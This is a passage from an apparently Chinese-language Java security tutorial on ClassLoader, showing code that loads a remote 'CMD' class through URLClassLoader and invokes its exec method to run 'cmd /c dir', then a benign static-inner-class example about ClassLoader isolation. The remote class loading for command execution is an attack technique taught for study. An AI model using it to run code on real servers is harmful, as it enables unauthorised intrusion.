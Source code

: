 ```java
            //  加载远程 class 文件/ jar 包中的 CMD 类
            Class cmdClass = urlClassLoader.loadClass("CMD");
            //  定义需要执行的命令，需要根据客户端（win/linux）进行命令的选择
//            String cmd = "calc";     //  calc 不需要下面的读取结果也可以的
            String cmd = "cmd /c dir";
            //  调用 CMD 类中的 exec 方法，如果是本地的话就相当于：Process process = CMD.exec("calc");
            Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
            //  获取执行结果的输入流
            InputStream inputStream = process.getInputStream();
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            //  读取结果
            while ((a = inputStream.read(bytes)) != -1){
                byteArrayOutputStream.write(bytes, 0, a);
            }
            //  输出结果
            System.out.println(byteArrayOutputStream.toString());
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

![image-20211030133837518](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f86ac4c8e846c053b4267e9c63f070b94c23e97a.png)

当然，有时候一个 class 可能满足不了我们，这时候可以修改上面的利用代码，加载 jar 包进行其他姿势。但是我们并不知道服务端加载了那些 jar 包，会不会和我们的冲突/相同？会不会加载远程资源以后造成业务不可逆的毁坏？这就可以介绍 ClassLoader 的隔离机制了

ClassLoader 隔离机制
================

鉴于上面的问题，来看看隔离机制

![image-20211030135708327](https://raw.githubusercontent.com/yq1ng/blog/master/CTFShow/20211030135708.png)

先认识一下 **静态内部类**

```java
package com.yq1ng.IsolationMechanism;

/**
 * @author ying
 * @Description
 * @create 2021-10-30 2:04 PM
 */

public class TestStaticClass {
    public static class A {
        public A() {
            System.out.println("Call the constructor of A~");
        }
        //  普通代码域，在类的每个对象创建的时候调用
        {
            System.out.println("Hello, I'm A~");
        }
    }

    public static void main(String[] args) {
        //  F1. 单独初始化
        A a = new A();
        //  F2. 内部类的初始化
        TestStaticClass.A aa = new TestStaticClass.A();
    }
```